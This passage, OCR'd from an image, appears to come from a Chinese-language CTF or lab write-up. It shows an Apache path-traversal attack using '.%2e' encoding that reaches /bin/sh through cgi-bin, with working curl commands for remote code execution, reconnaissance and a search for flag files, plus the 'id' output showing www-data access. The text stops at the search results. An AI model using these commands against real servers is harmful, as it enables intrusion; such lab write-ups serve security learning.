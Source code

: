    - **状态**: 403 Forbidden
   - **原因**: Manual文档路径可能有特殊的访问控制配置
   - **安全策略**: 表明某些路径映射有额外的安全限制
3. 🚫 **直接根路径被阻止**

   - **状态**: 403 Forbidden
   - **原因**: 根路径的路径遍历被Apache的基础安全机制阻止

##### 3.3 远程代码执行(RCE)攻击

###### 3.3.1 CGI路径的RCE攻击尝试

```bash
# 通过CGI路径执行shell命令
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```

**RCE攻击结果**:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**🎉 RCE攻击成功！**

- **权限获取**: 成功以 `www-data`用户身份执行命令
- **攻击方式**: 通过CGI路径结合路径遍历，直接调用系统shell
- **编码技术**: 使用混合编码 `.%2e`绕过路径限制

###### 3.3.2 系统信息收集

```bash
# 获取系统信息
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; uname -a"

# 查看当前目录
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; pwd"

# 列出根目录内容
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; ls -la /"
```

##### 3.4 Flag文件搜索与获取

###### 3.4.1 系统文件搜索

```bash
# 搜索系统中所有包含flag的文件
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; find / -name '*flag*' 2>/dev/null"
```

**搜索结果**:
